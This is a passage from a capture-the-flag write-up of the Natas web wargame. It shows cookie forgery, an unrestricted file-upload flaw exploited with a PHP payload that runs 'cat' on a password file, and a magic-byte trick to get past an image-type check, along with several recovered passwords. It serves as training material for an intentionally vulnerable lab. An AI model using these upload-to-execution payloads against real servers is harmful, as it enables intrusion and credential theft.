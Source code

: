 This gives our desired cookie, `EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3`. We set this
by running the following JavaScript in the browser console:

```javascript
document.cookie =
  "data=ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK";
```

Clicking on the `set color` button returns the password:

`EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3`

## 13

In this level, a file is uploaded to the server, via an HTML form. Looking at
the source code, we see that the form has a few elements, which are initially
hidden:

```php
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />
```

When writing the file to disk, the server code generates a random name for the
file. However, the extension given to the file is pulled from the hidden
`filename` input box in the form. If we set the extension of the file in the
form, that extension will be used to store our file on disk.

Different extensions cause the server to handle the file in different ways. A
`.jpg` extension will cause the server to serve the file as a static image, but
a `.php` extension will cause it to execute it as a PHP file.

We can therefore get the password by changing the text of the `filename` input
to `file.php` uploading the file:

```php
<?php
passthru('cat /etc/natas_webpass/natas13');
```

Submitting the form displays a link to the file. When we click on the link, the
PHP code is executed and the password is displayed.

> jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY

## 14

This level is similar to `13`, with the difference that the server side code now
runs the function `exif_imagetype` on the uploaded file to check if it's really
an image.

`exif_imagetype` works by reading the first few bytes from a file to check if
they match what the first few bytes of a `jpeg`, `gif`, `png` etc file are meant
to be. We can therefore trick the function by supplying a file which starts with
the first few bytes of an image format. For example, `jpeg` files start with the
number `0xFFD8FFE0`. We can create a `php` script with the correct starting
bytes with the following `python` code:
